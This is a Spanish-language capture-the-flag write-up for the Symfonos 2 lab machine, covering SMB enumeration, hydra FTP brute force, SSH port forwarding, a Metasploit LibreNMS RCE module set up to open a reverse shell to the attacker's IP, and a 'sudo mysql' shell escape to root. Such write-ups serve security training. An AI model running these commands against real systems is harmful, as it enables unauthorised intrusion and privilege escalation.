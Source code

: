 # Symfonos 2

**Sistema Operativo**: Linux

**Dificultad**: Media

**Técnicas Vistas**: FTP Exploitation - Abusing SITE CPFR/CPTO
Abusing FTP & SMB - Obtaining files from the machine
SSH Connection via Proxychains
SSH + Local Port Forwarding in order to access internal LibreNMS
LibreNMS Exploitation [RCE]
Abusing sudoers privilege (mysql) [Privilege Escalation]

Te prepara para las **Certificaciones**: eWPT / eJPT / eCPPTv2 / eCPTXv2<br><br>

![image](https://github.com/user-attachments/assets/717610e3-bcdd-4bb9-9a1e-1cea0a7f9290)<br><br>


## Reconocimiento

Encontramos la IP con `arp-scan`<br>

![image](https://github.com/user-attachments/assets/b8b7d32d-925a-4aa1-885b-0dfc9ee7f82a)<br>


- `-I eth0` -> Mi interfaz grafica.
- `--localnet` -> Red local.
- `--ignoredups` -> Que ignore duplicados.<br><br>

![image](https://github.com/user-attachments/assets/6978b75a-0561-494d-bf04-924c15ae0035)<br>

## SMB

Utilizando `smbmap` podemos listar los recursos compartidos y vemos una carpeta "anonymous" que podemos leer.<br>

![image](https://github.com/user-attachments/assets/cecdfb36-ec8f-49b7-bc93-9428da0c1fe4)<br><br>


Encontramos un "log.txt"<br>

![image](https://github.com/user-attachments/assets/1510bf73-9ea7-4708-a584-1096c30fbd9c)<br><br>


Descargamos el "log.txt"<br>

![image](https://github.com/user-attachments/assets/41c52a38-f449-4fb9-9c8c-bbc117e1e7b1)<br><br>

Encontramos un usuario: `aeolus`<br>

![image](https://github.com/user-attachments/assets/fa137cc4-4d32-4437-8868-26bd834fe089)<br>

## Ataque de fuerza bruta FTP

Utilizando `hydra` encontramos la contraseña del usuario "aeolus"<br>

![image](https://github.com/user-attachments/assets/92ac35c1-ec06-4a7f-b058-e368a66e0678)<br>

- `-l` -> El usuario
- `-P` -> La ruta del diccionario para hacer fuerza bruta
- `ftp://192.168.0.43` -> El protocolo, junto con la IP<br><br>


## Escalada de privilegios

Haciendo `cat /proc/net/tcp`, luego `echo $((0x1F90))` descubrimos el puerto "8080"<br>

![image](https://github.com/user-attachments/assets/5f72a1b9-4eea-4adb-9443-98a40813d261)<br>

Si le hacemos un `curl -s -X GET http://localhost:8080`, vemos un panel de login.<br>

![image](https://github.com/user-attachments/assets/860992e5-1dd7-4212-a414-5d20c6bbdaa3)<br><br>

Aplicamos port forwarding en nuestro maquina de atacante `ssh -L 5000:localhost:8080 aeolus@192.168.0.18`, esto quiere decir que el puertos "5000" de nuestra maquina se convierta en el puerto "8080" de la maquina victima.<br><br>

![image](https://github.com/user-attachments/assets/9e76d8ae-e6ce-4ef8-9510-a31c22987b9a)<br><br>

```
msfconsole

search librenms

1

use 1 -> Elegimos el script a utilizar

set PASSWORD sergioteamo
set USERNAME aeolus
set LHOST 192.168.0.162 -> mi IP
set LPORT 6000
set RHOSTS 127.0.0.1 -> port forwarding
set RPORT 5000 -> port forwarding

show options -> Comprobar si todo esta bien

run -> lanzamos el script

```
<br><br>
##### Somos el usuario cronus

![image](https://github.com/user-attachments/assets/83bc6d16-911b-4d34-a264-b445da58c9ca)<br>


Con `sudo -l` vemos que no necesitamos proporcionar contraseña para utilizar "mysql", en la pagina "https://gtfobins.github.io/gtfobins/mysql/", nos proporciona el comando `sudo mysql -e '\! /bin/sh' ` que nos convierte en root.<br><br>

![image](https://github.com/user-attachments/assets/d173afe1-d9ba-40eb-91ea-6b9cd18e1611)<br><br>


##### Flag

![image](https://github.com/user-attachments/assets/d2646498-e528-4e2e-ab6a-fc837ebed3c3)<br>

